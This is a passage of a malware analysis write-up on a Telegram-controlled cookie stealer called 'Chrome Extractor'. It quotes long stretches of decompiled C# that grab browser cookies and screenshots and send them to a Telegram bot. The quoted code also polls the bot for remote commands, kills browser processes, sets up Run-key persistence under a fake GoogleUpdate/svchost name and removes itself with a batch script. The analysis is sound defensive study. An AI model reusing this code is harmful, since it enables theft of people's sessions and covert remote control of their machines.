    if (!string.IsNullOrWhiteSpace(text11))
    {
        config.TelegramChatID = text11;
    }
}
```

Now it checks inside the registry Software\\GoogleUpdate if we have Tval and Cval if we do and it's not nul or whitespace then it is assigned to TelegramToken and TelegramChatId respectively


Moving on,
### FUNC_telegram.sendConnection()

```c#
public static void sendConnection()
{
    telegram.Identifier = new Random().Next(1, 10000);
    telegram.sendText(string.Concat(new string[]
    {
        "\ud83c\udf00Chrome Extractor: PC connected:\nUsername: ",
        Environment.UserName.ToString(),
        ", Location: ",
        telegram.Location,
        ", ID: ",
        telegram.Identifier.ToString(),
        "\nℹ\ufe0fSend \"/",
        telegram.Identifier.ToString(),
        "*help\" to see the command list"
    }));
```

Creates a random identifier for our machine then sends out the text Chrome Extractor : PC connected: 
Username: `username`, Location: `telegram-location`, ID: `random`, ☺️Send \*help\ to see the command list

### Registry GoogleUpdate - ValueX

```C#
string text12 = "";
try
{
    string name2 = "Software\\" + config.RegistryKey;
    using RegistryKey registryKey2 = Registry.CurrentUser.OpenSubKey(name2, writable: false);
    string text13 = registryKey2?.GetValue("Value X") as string;
    if (!string.IsNullOrWhiteSpace(text13))
    {
        text12 += text13;
    }
}
catch (Exception)
{}
```
This just opens the registry key `HKEY_CURRENT_USER\SOFTWARE\GoogleUpdate` and checks if the Value X has been set, if it is then it appends it as a string to text12

But in our case it doesn't exist so it goes to the next if condition

```c#
if (text12 == "")
{
    string text14 = "";
    string[] array2 = config.startupURLs;
    foreach (string text15 in array2)
    {
        text14 = text14 + text15 + " ";
    }
    try
    {
        if (config.StartupKill)
        {
            foreach (Process item in Process.GetProcessesByName("chrome").ToList())
            {
                try
                {
                    if (item.MainModule.FileName != config.InstallPath + "\\" + config.InstallExeName)
                    {
                        item.Kill();
                        item.WaitForExit();
                    }
                }
                catch (Exception)
                {
                }
            }
        }
        if (Process.GetProcessesByName("chrome").Length == 0)
        {
            string chromePath = CookieExtractor.GetChromePath();
            if (chromePath != "" && Directory.Exists(Environment.GetFolderPath(Environment.SpecialFolder.LocalApplicationData) + "\\Google\\Chrome\\User Data\\Default"))
            {
                string result = CookieExtractor.GetCookies(config.startupURLs, Environment.GetFolderPath(Environment.SpecialFolder.LocalApplicationData) + "\\Google\\Chrome\\User Data", chromePath, "Default", "chrome", force: false).Result;
                if (!result.StartsWith("<Error") && result != "")
                {
                    telegram.sendStringAsFile(result, "\ud83e\udd60Cookies from these websites [" + text14 + "] were successfully grabbed from the Default profile of Chrome");
                }
            }
        }
    }
```

This block starts with gettin gthe startupURLs array which is 
{google.com, youtube.com} and takes each string in that and adds them together as a single string

Now our config.StartupKill is `0`, but had it been set, we see that the malware focibly tires to kills hte running process but because it's not enabled, it goes to the next piece of code 
`if (Process.GetProcessesByName("chrome").Length == 0)
`
This basically checks that there are currently no running processes in the system

Then it does the following

- **FUNC_Get Chrome Path**


this basically checks some precoded places and the PATH variable
- Extract cookies of google.com and youtube.com from chrome's user data folder 
- Checks if they don't return an error or null, iin which case it sends string as file

### FUNC_telegram.SendStringAsFile()
```c#
public static void sendStringAsFile(string content, string caption, string fileName = "cookies.txt", string type = "Document")
{
	try
	{
		if (string.IsNullOrEmpty(content))
		{
			sendText("\ud83d\uded1Error occurred, the content seems to be empty.");
			return;
		}
		using HttpClient httpClient = new HttpClient();
		MultipartFormDataContent multipartFormDataContent = new MultipartFormDataContent();
		byte[] bytes = Encoding.UTF8.GetBytes(content);
		multipartFormDataContent.Add(new ByteArrayContent(bytes), type.ToLower(), fileName);
		HttpResponseMessage result = httpClient.PostAsync("https://api.telegram.org/bot" + config.TelegramToken + "/send" + type + "?chat_id=" + config.TelegramChatID + "&caption=" + Uri.EscapeDataString(caption), multipartFormDataContent).Result;
		if (!result.IsSuccessStatusCode)
		{
			sendText("\ud83d\uded1Error occurred while sending the file. Response: " + result.ReasonPhrase);
		}
	}
	catch (Exception ex)
	{
		sendText("\ud83d\uded1Error occurred: " + ex.Message);
	}
}

```

It takes the cookies, copies it as bytes into cookies.txt and then sends the entire thing as a file over to telegram

Then we see it does the same for the following browsers

- msedge
- brave
- yandex browser
- opera
- opera gx

Next code block

```C#
try
{
    Random random = new Random();
    try
    {
        RegistryKey registryKey3 = Registry.CurrentUser.CreateSubKey("Software\\" + config.RegistryKey);
        registryKey3.SetValue("Value X", random.Next(1, 10000).ToString());
        registryKey3.Close();
    }
    catch (Exception)
    {
        RegistryKey registryKey4 = Registry.CurrentUser.OpenSubKey("Software\\" + config.RegistryKey);
        registryKey4.SetValue("Value X", random.Next(1, 10000).ToString());
        registryKey4.Close();
    }
```

As we can see now it is trying to set the Value X to some randomg Value , this is set as an indication to let the malware know that the next time it runs, it doesn't have to scour through to get the cookies but it already has got and sent it over to telegram once

Then finally that brings us to this in `Main` `telegram.waitCommandsThread.Start();`: This is basically a wrapper function to start a thread for the function below


### FUNC_Waitcommands()

```c#
// ChromeExtractor.telegram
using System;
using System.Net;
using System.Threading;
using SimpleJSON;

private static void waitCommands()
{
	int num = 0;
	string text;
	try
	{
		using (WebClient webClient = new WebClient())
		{
			text = webClient.DownloadString("https://api.telegram.org/bot" + config.TelegramToken + "/getUpdates?offset=-1");
		}
		num = JSON.Parse(text)["result"][0]["message"]["date"].AsInt;
	}
	catch (Exception)
	{
	}
	while (true)
	{
		try
		{
			Thread.Sleep(config.TelegramCommandCheckDelay * 1000);
			waitForUnblock();
			using (WebClient webClient2 = new WebClient())
			{
				text = webClient2.DownloadString("https://api.telegram.org/bot" + config.TelegramToken + "/getUpdates?offset=-1");
			}
			try
			{
				if (JSON.Parse(text)["result"][0]["message"]["date"].AsInt <= num)
				{
					continue;
				}
				JSONNode.Enumerator enumerator = JSON.Parse(text)["result"].AsArray.GetEnumerator();
				while (enumerator.MoveNext())
				{
					JSONNode jSONNode = ((JSONNode)enumerator.Current)["message"];
					if ((string)jSONNode["chat"]["id"] != config.TelegramChatID)
					{
						break;
					}
					if (!jSONNode.HasKey("text"))
					{
						continue;
					}
					try
					{
						string text2 = jSONNode["text"];
						if (text2.StartsWith("/"))
						{
							string text3 = text2.Remove(0, 1);
							if (text3.Split('*')[0] == Identifier.ToString() || text3.Split('*')[0].ToLower() == "all" || text3.ToLower() == "online")
							{
								commands.handle(text3);
							}
						}
					}
					catch (Exception)
					{
					}
				}
				num = JSON.Parse(text)["result"][0]["message"]["date"].AsInt;
			}
			catch (Exception)
			{
				try
				{
					if (text.Contains("webhook"))
					{
						using WebClient webClient3 = new WebClient();
						webClient3.DownloadString("https://api.telegram.org/bot" + config.TelegramToken + "/deleteWebhook");
					}
				}
				catch (Exception)
				{
				}
			}
		}
		catch (Exception)
		{
		}
	}
}
```


For this from simple googling we get https://core.telegram.org/bots/api#getupdates
Which tells us how the api of `getupdates` works and that it returns in a json format. THe offset -1 tells it to get the latest update



- Gets Latest Update
- Parses the timestamp (date) of the most recent message and stores it in num
- If the latest update has a date field less than or equal to the last processed timestamp (num), it continues without processing (no new messages)
- Otherwise, iterates through all the updates in the result array
- For each message it checks if it is from the configured allowed chat ID
- Checks if the message contains text
- If the text starts with a / (indicating a command), it removes the / and splits it by *
- Processes the command if its first part matches the current bot Identifier which we had randomly generated earlier or "all" or "online"
- Executes the command handler commands.handle(text3) with the command string
- Then it updates num to the latest timestamp to keep it ready for the next upcoming commands


Which brings us to possibly the most important function of them all now which is

### FUNC_commands.handle()




`online`

This part takes the command that it receives from the bot and checks if the command is "online" and if it is, then the malware sends the text back to bot with the followin information

- username
- ID
- Location


`gift`

```c#
string[] array = command.Split('*');
if (array.Length <= 1)
{
    return;
}
string text = array[1].ToLower();
if (text != null)
{
    switch (text.Length)
    {
    case 4:
        switch (text[0])
        {
        case 'g':
        {
            if (!(text == "gift"))
            {
                break;
            }
            string text5;
            string text6;
            string text7;
            try
            {
                text5 = array[2];
                text6 = array[3];
                text7 = array[4];
            }
            catch (IndexOutOfRangeException)
            {
                telegram.sendText("\ud83d\uded1Incorrect amount of arguments!");
                return;
            }
            try
            {
                string text8;
                using (WebClient webClient = new WebClient())
                {
                    text8 = webClient.DownloadString("https://api.telegram.org/bot" + text5 + "/sendMessage?chat_id=" + text6 + "&text=⚙\ufe0f[Chrome Cookie Extractor] Gifting a bot to you...");
                }
                if (text8.Contains("\"ok\":false"))
                {
                    telegram.sendText("⚠\ufe0fThe token/chat ID isn`t correct or the bot isn`t started by user. Please check the credentials and try again");
                    return;
                }
            }
            catch (Exception ex16)
            {
                telegram.sendText("⚠\ufe0fFailed to check the bot token. The gifting won`t be done for not losing the remote access forever. Error text: " + ex16.Message.ToString());
                return;
            }
            try
            {
                try
                {
                    RegistryKey registryKey = Registry.CurrentUser.CreateSubKey("Software\\" + config.RegistryKey);
                    registryKey.SetValue("Tval", text5);
                    registryKey.SetValue("Cval", text6);
                    registryKey.Close();
                }
                catch (Exception)
                {
                    RegistryKey registryKey2 = Registry.CurrentUser.OpenSubKey("Software\\" + config.RegistryKey);
                    registryKey2.SetValue("Tval", text5);
                    registryKey2.SetValue("Cval", text6);
                    registryKey2.Close();
                }
                telegram.sendText("\ud83c\udf81You`ve gifted a bot:\nUsername: " + Environment.UserName.ToString() + ", ID: " + telegram.Identifier + ", Location: " + telegram.Location.ToString());
                config.TelegramToken = text5;
                config.TelegramChatID = text6;
                telegram.sendText("\ud83c\udf81You were gifted a bot:\nUsername: " + Environment.UserName.ToString() + ", ID: " + telegram.Identifier + ", Location: " + telegram.Location.ToString() + "\nℹ\ufe0fFor the command list send /" + telegram.Identifier + "*help\n\ud83d\udcdcPrevious owner message: " + text7);
                return;
            }
            catch (Exception ex18)
            {
                telegram.sendText("\ud83d\udce1Error: " + ex18.Message.ToString());
                return;
            }
        }
```

Seems like the commands are send of the format \\\*command* 
So now the malware gets the commands and already has removed the \\ and now it splits according to \*, and takes the length of the command

If length is 4, and the first letter is  g, it checks if the command it received is `gift`

In which case, it expects that there be 3 arguments in the form of

\\*command\*arg1\*arg2\*arg3

arg1 - New telegram Bot token
arg2 - New Chat ID
arg3 - Previous ownder message

Then


It tries to send a test message using the new bot token/chat ID by calling telegram.sendMessage API

If it receives an error ("ok":false), it notifies the sender that the token or chat ID is incorrect

And now it updates this new token val and chat id val into registry accordingly
Under the registry key `HKEY_CURRENT_USER\SOFTWARE\GoogleUpdate` and the values Tval and Cval are set accordingly to Token value and chatID value

Then the config.TelegramToken is updated and the config.TelegramChatID is updated as ɑ

`help`
```c#
case 'h':
    if (!(text == "help"))
    {
        break;
    }
    telegram.sendText("\ud83d\udcdcCommand list:\n\ud83d\udd39/online - See all your bots\n\ud83d\udd39/" + telegram.Identifier + "*help - help\n\ud83d\udd39/" + telegram.Identifier + "*cookies*<urls, separated with spaces>*<browser name>*<profile name (not a necessary argument)> - get cookies\n\ud83d\udd39/" + telegram.Identifier + "*cookiesforce*<urls, separated with spaces>*<browser name>*<profile name (not a necessary argument)> - get cookies killing the browser if it`s already running\n\ud83d\udd39/" + telegram.Identifier + "*kill*<browser name> - kill the current browser session\n\ud83d\udd39/" + telegram.Identifier + "*getprofiles - get the list of Chromium browsers and their profiles\n\ud83d\udd39/" + telegram.Identifier + "*desktop - grab a screenshot\n\ud83d\udd39/" + telegram.Identifier + "*whois - get user location\n\ud83d\udd39/" + telegram.Identifier + "*uninstall - uninstall the software from this device\n\ud83d\udd39/" + telegram.Identifier + "*startuplist - see the list of startup programs\n\ud83d\udd39/" + telegram.Identifier + "*startupadd - add the software to startup\n\ud83d\udd39/" + telegram.Identifier + "*gift*<NEW TOKEN>*<NEW CHAT ID>*<message> - gift this bot to another user, his telegram bot has to be started\n\ud83d\udd39/" + telegram.Identifier + "*about - about");
    return;
```

THis one is pretty self explanatory, it shows a help menu of the bot, which list out all the possible commands and how to use them

### **Commands** :
**/online** - See all your bots
**\*help** - help
**\*cookies\*<urls, separated with spaces>\*\<browser name>\*\<profile name (not a necessary argument)>** - get cookies
**\*cookiesforce\*\<urls, separated with spaces>\*\<browser name>\*\<profile name (not a necessary argument)>** - get cookies killing the browser if it`s already running
**\*kill\*\<browser name>** - kill the current browser session
**\*getprofiles** - get the list of Chromium browsers and their profiles
**\*desktop** - grab a screenshot
**\*whois** - get user location
**\*uninstall** - uninstall the software from this device
**\*startuplist** - see the list of startup programs
**\*startupadd** - add the software to startup
**\*gift\*\<NEW TOKEN>\*\<NEW CHAT ID>\*\<message>** - gift this bot to another user, his telegram bot has to be started
**\*about** - about

#### `kill`
```c#
case 'k':
    if (!(text == "kill"))
    {
        break;
    }
    try
    {
        Dictionary<string, string> dictionary = new Dictionary<string, string>();
        dictionary.Add("chrome", "chrome");
        dictionary.Add("edge", "msedge");
        dictionary.Add("yandex", "browser");
        dictionary.Add("brave", "brave");
        dictionary.Add("opera", "opera");
        dictionary.Add("operagx", "opera");
        string text4 = "";
        try
        {
            text4 = array[2].ToLower();
        }
        catch (IndexOutOfRangeException)
        {
            telegram.sendText("\ud83d\uded1Incorrect amount of arguments!");
            return;
        }
        if (!dictionary.ContainsKey(text4))
        {
            telegram.sendText("\ud83d\uded1Unknown browser!");
            return;
        }
        int num = 0;
        foreach (Process item in Process.GetProcessesByName(dictionary[text4]).ToList())
        {
            num++;
            try
            {
                if (item.MainModule.FileName != config.InstallPath + "\\" + config.InstallExeName)
                {
                    item.Kill();
                }
            }
            catch (Exception)
            {
            }
        }
        if (num > 0)
        {
            telegram.sendText("✅All the processes were killed");
        }
        else
        {
            telegram.sendText("⚠\ufe0fNo running instances of this browser were found");
        }
        return;
    }
```

This command is used to kill all the running processes of a particular browser name as specified by the argument


#### `about`
```c#
case 'a':
    if (!(text == "about"))
    {
        break;
    }
    telegram.sendText("\ud83c\udf00Chrome Extractor, version: " + telegram.softVersion.ToString() + "\nThis is an utility to extract cookies remotely from the Google Chrome browser, including the latest versions\n\ud83d\udc51Coded by @shinyenigma");
    return;
```

This shows the about information of this malware Chrome Extractor, version: \<telegram version> This is an utility to extract cookies remotely from the Google Chrome browser, including the latest versions\n\ud83d\udc51Coded by @shinyenigma

#### `whois`


Gets us the 
`IP | country| country code|CIty| Region|Internet Provider`

#### `desktop`

This takes a screenshot of whatever is on screen at the moment
```c#
public static void desktopScreenshot()
{
	string fileName = "screenshot.jpg";
	using MemoryStream memoryStream = new MemoryStream();
	using (Graphics graphics = Graphics.FromHwnd(IntPtr.Zero))
	{
		IntPtr hdc = graphics.GetHdc();
		int deviceCaps = Win32Native.GetDeviceCaps(hdc, 118);
		int deviceCaps2 = Win32Native.GetDeviceCaps(hdc, 117);
		graphics.ReleaseHdc(hdc);
		int height = deviceCaps2;
		using Bitmap bitmap = new Bitmap(deviceCaps, height);
		using (Graphics graphics2 = Graphics.FromImage(bitmap))
		{
			graphics2.CopyFromScreen(0, 0, 0, 0, bitmap.Size);
		}
		bitmap.Save(memoryStream, ImageFormat.Jpeg);
	}
	using HttpClient httpClient = new HttpClient();
	MultipartFormDataContent multipartFormDataContent = new MultipartFormDataContent();
	byte[] array = memoryStream.ToArray();
	multipartFormDataContent.Add(new ByteArrayContent(array, 0, array.Length), "Document".ToLower(), fileName);
	httpClient.PostAsync("https://api.telegram.org/bot" + config.TelegramToken + "/sendDocument?chat_id=" + config.TelegramChatID + "&caption=\ud83d\udcf8Screenshot was successfully taken", multipartFormDataContent).Wait();
	httpClient.Dispose();
```

It sends it over as a document as "screenshot.jpg"

#### `cookies`:

Syntax : `*cookies*<urls, separated with spaces>*<browser name>*<profile name (not a necessary argument)>`

```c#
if (!(text == "cookies"))
    {
        break;
    }
    string text11 = "Default";
    string text12 = "Chrome";
    string[] array3;
    try
    {
        array3 = array[2].Split(' ');
    }
    catch (IndexOutOfRangeException)
    {
        telegram.sendText("\ud83d\uded1Incorrect amount of arguments!");
        return;
    }
    try
    {
        text12 = array[3];
    }
    catch (IndexOutOfRangeException)
    {
        telegram.sendText("\ud83d\uded1Incorrect amount of arguments!");
        return;
    }
    if (array3.Length == 0)
    {
        telegram.sendText("\ud83d\uded1No valid URLs provided");
        return;
    }
    if (array.Length > 4)
    {
        try
        {
            text11 = array[4];
        }
        catch (Exception)
        {
        }
    }
```

Checks if the browser we want to extract cookies out of is running, if it is then it requests us to kill it first.

By default text 11 and text12 is set to Default and Chrome
But, 
**text 12** - what browser the bot operator wants to get cookies out of 
**text 11** - specific user profile
**array3** - the urls of the websites from which the malware steals cookies

Similarly for other browsers it's the same format to retrieve the cookies just that the if conditions change to respective browser names etc.

#### `startuplist`
```c#
if (!(text == "startuplist"))
        {
            break;
        }
        try
        {
            string text9 = "\ud83d\udd18Current startup list:";
            try
            {
                text9 += "\n⚙\ufe0fRegistry:";
                string name = "SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run";
                using RegistryKey registryKey3 = Registry.CurrentUser.OpenSubKey(name, writable: false);
                string[] valueNames = registryKey3.GetValueNames();
                foreach (string name2 in valueNames)
                {
                    text9 = text9 + "\n" + registryKey3.GetValue(name2).ToString();
                }
            }
            catch (Exception)
            {
            }
            try
            {
                text9 += "\n\ud83d\udcc2Startup folder:";
                string[] valueNames = Directory.GetFiles(Environment.GetFolderPath(Environment.SpecialFolder.ApplicationData) + "\\Microsoft\\Windows\\Start Menu\\Programs\\Startup");
                foreach (string text10 in valueNames)
                {
                    text9 = text9 + "\n" + text10;
                }
            }
            catch (Exception)
            {
            }
            telegram.sendText(text9);
            return;
        }
        catch (Exception ex22)
        {
            telegram.sendText("\ud83d\udce1Error: " + ex22.Message.ToString());
            return;
        }
```

To find the current startup list it does two things
1) queries registry `HKCU\\SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run` 
Then gets all the value names from the registry

2) Startup Folder - `\Microsoft\\Windows\\Start Menu\\Programs\\Startup` 

It gets all the files from the above directory and concatenates it into a single string and sends it over telegram

#### `getprofiles`
```C#
case 'g':
    if (!(text == "getprofiles"))
    {
        break;
    }
    try
    {
        telegram.sendText(string.Concat(string.Concat(string.Concat(string.Concat("\ud83c\udf10Browsers and profiles:" + GetProfiles("Chrome", Environment.GetFolderPath(Environment.SpecialFolder.LocalApplicationData) + "\\Google\\Chrome\\User Data"), GetProfiles("Edge", Environment.GetFolderPath(Environment.SpecialFolder.LocalApplicationData) + "\\Microsoft\\Edge\\User Data")), GetProfiles("Brave", Environment.GetFolderPath(Environment.SpecialFolder.LocalApplicationData) + "\\BraveSoftware\\Brave-Browser\\User Data")), GetProfiles("Yandex", Environment.GetFolderPath(Environment.SpecialFolder.LocalApplicationData) + "\\Yandex\\YandexBrowser\\User Data")), GetProfiles("Opera", Environment.GetFolderPath(Environment.SpecialFolder.ApplicationData) + "\\Opera Software\\Opera Stable")));
        return;
    }
    catch (Exception ex19)
    {
        telegram.sendText("\ud83d\udce1Error: " + ex19.Message.ToString());
        return;
    }
}
break;
```


Pretty self explanatory - Gets all the profiles from all the browsers. Accesses the Default path where you can find the Profile folders and just takes the names of each of those profiles and appends it with the browser name and returns it which is then sent over telegram

#### `uninstall`

This is the KILL Switch of the malware
It performs

- persistence.uninstallself
- sleep 2 seconds
- then exits

### FUNC_persisten.uninstallself() 
```C#


// ChromeExtractor.persistence
using System;
using System.Diagnostics;
using System.IO;
using System.Reflection;

public static void uninstallSelf()
{
	try
	{
		delAutorun();
	}
	catch (Exception)
	{
	}
	try
	{
		if (Directory.Exists(Environment.GetFolderPath(Environment.SpecialFolder.ApplicationData) + "\\temporal"))
		{
			Directory.Delete(Environment.GetFolderPath(Environment.SpecialFolder.ApplicationData) + "\\temporal", recursive: true);
		}
	}
	catch (Exception)
	{
	}
	try
	{
		Process process = new Process();
		process.StartInfo = new ProcessStartInfo
		{
			WindowStyle = ProcessWindowStyle.Hidden,
			FileName = "cmd.exe",
			Arguments = "/c reg delete HKCU\\Software\\" + config.RegistryKey + " /f"
		};
		process.Start();
	}
	catch (Exception)
	{
	}
	string text = Path.GetTempFileName() + ".bat";
	Process.GetCurrentProcess().Id.ToString();
	if (!config.NoInstall)
	{
		using StreamWriter streamWriter = File.AppendText(text);
		streamWriter.WriteLine("@echo off");
		streamWriter.WriteLine("chcp 65001 > nul\n");
		streamWriter.WriteLine(":l");
		streamWriter.WriteLine("if Errorlevel 1 (");
		streamWriter.WriteLine(" Timeout /T 1 /Nobreak");
		streamWriter.WriteLine(" Goto l");
		streamWriter.WriteLine(")");
		streamWriter.WriteLine("Rmdir /S /Q \"" + config.InstallPath + "\"");
	}
	else
	{
		using StreamWriter streamWriter2 = File.AppendText(text);
		streamWriter2.WriteLine("@echo off");
		streamWriter2.WriteLine("chcp 65001 > nul\n");
		streamWriter2.WriteLine(":l");
		streamWriter2.WriteLine("if Errorlevel 1 (");
		streamWriter2.WriteLine(" Timeout /T 1 /Nobreak");
		streamWriter2.WriteLine(" Goto l");
		streamWriter2.WriteLine(")");
		streamWriter2.WriteLine("Rmdir /S /Q \"" + config.InstallPathFixed + "\"");
		streamWriter2.WriteLine("del /F \"" + Assembly.GetEntryAssembly().Location + "\"");
	}
	Process.Start(new ProcessStartInfo
	{
		Arguments = "/C " + text + " & Del " + text,
		WindowStyle = ProcessWindowStyle.Hidden,
		CreateNoWindow = true,
		FileName = "cmd.exe"
	});
	Environment.Exit(1);
}

```
it is very similar to the Install function, almost the same operations

- Deletes the registry keys
- Deletes the file under C:\Users\Ryuzaki\AppData\Local\AdobeUpdater\svchost.exe and deletes the folder also C:\Users\Ryuzaki\AppData\Local\AdobeUpdater\ using a batch file
- Deletes the batch file this is used to perform the above deletions
- 

#### `startupadd`

Launches a hidden command prompt to add to registry key `/c reg add HKCU\\Software\\Microsoft\\Windows\\CurrentVersion\\Run /v  GoogleUpdater /t REG_SZ /d C:\Users\Ryuzaki\AppData\Local\AdobeUpdater\svchost.exe /f`

#### `cookiesforce`

Syntax : `*cookiesforce*<urls, separated with spaces>*<browser name>*<profile name (not a necessary argument)>`
Less stealthy version of Cookies command where this can try to kill a browser if it's already running to get cookies out of it

That is done by setting a bool flag called force to true in the API **CookieExtractor.GetCookies**

